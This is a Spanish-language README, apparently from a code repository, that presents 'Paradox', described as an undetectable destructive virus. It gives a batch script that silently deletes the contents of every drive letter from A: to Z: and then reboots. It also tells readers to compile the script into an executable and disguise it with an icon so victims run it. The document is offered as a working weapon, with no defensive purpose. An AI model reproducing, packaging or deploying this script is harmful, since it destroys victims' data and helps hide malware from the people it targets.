 # Paradox

Es un virus destructivo indetectable capas de formatear todas la unidades de disco de la PC de la víctima.

<p align="center">
<img src="./Img/VirusTotal.png">
</p>

## USO

Crearemos un archivo de texto y copiaremos el siguiente código.

```bat
@echo off
rd/s/q A:
rd/s/q B:
rd/s/q C:
rd/s/q D:
rd/s/q E:
rd/s/q F:
rd/s/q G:
rd/s/q H:
rd/s/q I:
rd/s/q J:
rd/s/q K:
rd/s/q L:
rd/s/q M:
rd/s/q N:
rd/s/q O:
rd/s/q P:
rd/s/q Q:
rd/s/q R:
rd/s/q S:
rd/s/q T:
rd/s/q U:
rd/s/q V:
rd/s/q W:
rd/s/q X:
rd/s/q Y:
rd/s/q Z:
shutdown /r
```

Luego lo guardamos con la siguiente extension **archivo.bat**

Ahora usaremos **bat to exe** para convertir a un archivo ejecutable y ocultar el virus con un icono.

[Bat to exe](https://bat-to-exe-converter-x64.softonic.com/#:~:text=BAT%20to%20EXE%20Converter%20es,el%20producto%20final%20est%C3%A9%20protegido.)